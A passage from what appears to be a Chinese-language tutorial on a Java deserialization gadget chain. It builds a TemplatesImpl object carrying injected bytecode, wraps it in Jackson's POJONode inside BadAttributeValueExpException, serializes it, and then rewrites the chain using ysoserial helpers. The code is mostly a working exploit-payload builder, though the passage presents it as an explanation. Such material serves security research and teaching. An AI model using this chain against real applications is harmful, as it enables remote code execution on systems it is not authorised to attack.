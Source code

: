```java
        byte[] bytes = ctClass.toBytecode();
        // 2、创建 TemplatesImpl 类利用反射获取私有属性并设置
        Templates templatesImpl = new TemplatesImpl();
        Field bytecodes = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templatesImpl,new byte[][]{bytes});
        Field name = templatesImpl.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templatesImpl,"111");
        Field tfactory = templatesImpl.getClass().getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templatesImpl,null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        // 3、BadAttributeValueExpException 提供 readObject 入口
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        // 4、序列化
        serial(exp);
    }
    // serial_method
    public static byte[] serial(Object o) throws IOException{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return baos.toByteArray();
    }
}
```

4、使用 ysoserial 重写上面的代码

> 在 ysoserial 中作者已经封装了一些方法，方便我们直接调用

```java
// Gadgets#createTemplatesImpl方法创建TemplatesImpl类，在ysoserial中该方法已经封装了上面代码的1、2步，这里我们传入正确的参数后直接调用即可
final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
POJONode jsonNodes = new POJONode(templatesImpl);
// 上面代码的第 3 步
BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
Field val = exp.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(exp,jsonNodes);
// 序列化，可以直接调用PayloadRunner#run方法
PayloadRunner.run(test.class, args);
```

## 0x03 踩坑
